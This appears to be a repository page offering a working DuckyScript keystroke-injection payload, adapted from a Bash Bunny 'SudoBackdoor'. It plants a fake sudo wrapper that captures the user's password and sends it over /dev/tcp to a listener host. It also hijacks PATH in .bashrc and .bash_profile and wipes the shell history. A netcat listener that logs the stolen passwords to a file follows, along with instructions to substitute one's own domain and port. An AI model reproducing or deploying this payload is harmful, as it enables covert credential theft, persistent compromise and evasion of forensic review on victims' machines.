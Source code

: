 Payload originally designed by oXis for Bash Bunny.

Bash Bunny Payload page: https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/credentials/SudoBackdoor

Change example.com to your own domain or listening IP address and 1337 to your own port of choice.

```
REM Original Author: oXis
REM Original Payload for Bash Bunny: https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/credentials/SudoBackdoor
REM Modified by 5h@d0w
DELAY 2000
GUI space
DELAY 500
ALT F2
DELAY 500
BACKSPACE
DELAY 100
STRING terminal
ENTER
DELAY 3000
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 100
STRING rm  ~/.config/sudo/sudo
ENTER
DELAY 100
STRING echo '#!/bin/bash
ENTER
STRING /usr/bin/sudo -n true 2>/dev/null
ENTER
STRING if [ $? -eq 0 ]
ENTER
STRING then
ENTER
STRING /usr/bin/sudo $@
ENTER
STRING else
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/example.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/example.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 600
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 800
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 500
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 500
STRING history -c && rm .bash_history && exit
ENTER
DELAY 1000
GUI q
```

Use this bash script to listen on your server:

```
#!/bin/bash
while [ true ]
do
netcat -vv -lp 1337 >> passwd.txt
done
```